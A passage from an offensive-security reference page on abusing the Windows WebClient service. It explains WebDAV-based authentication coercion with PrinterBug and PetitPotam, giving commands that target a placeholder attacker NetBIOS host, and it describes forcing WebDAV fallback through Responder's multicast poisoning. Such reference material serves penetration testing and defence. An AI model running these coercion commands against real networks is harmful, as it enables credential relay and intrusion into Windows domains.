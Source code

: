 :::


### Abuse

#### Abuse from authentication coercion

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

#### Abuse from multicast poisoning

In a different way, under certain conditions it is possible to force a WebDAV authentication from a multicast poisoning. Indeed, according to [this article](https://www.synacktiv.com/publications/taking-the-relaying-capabilities-of-multicast-poisoning-to-the-next-level-tricking) from Synacktiv, if the WebClient service is running on a machine, it is possible to obtain a WebDAV authentication from a multicast poisoning, instead of an SMB one, by changing the error code returned.

In fact, as explained in the article, [Responder](https://github.com/lgandx/Responder) normally ends the authentication exchange with a `STATUS_ACCESS_DENIED` status code in the context of the SMB exchange, closing the connection immediatly. However, by changing the code to `STATUS_LOGON_FAILURE` (`0xc000006d`) or `STATUS_BAD_NETWORK_NAME` (`0xc00000cc`), the SMB client will not immediatly close the connection and will attempt to fallback to the WebDAV client (if the WebClient service is running).
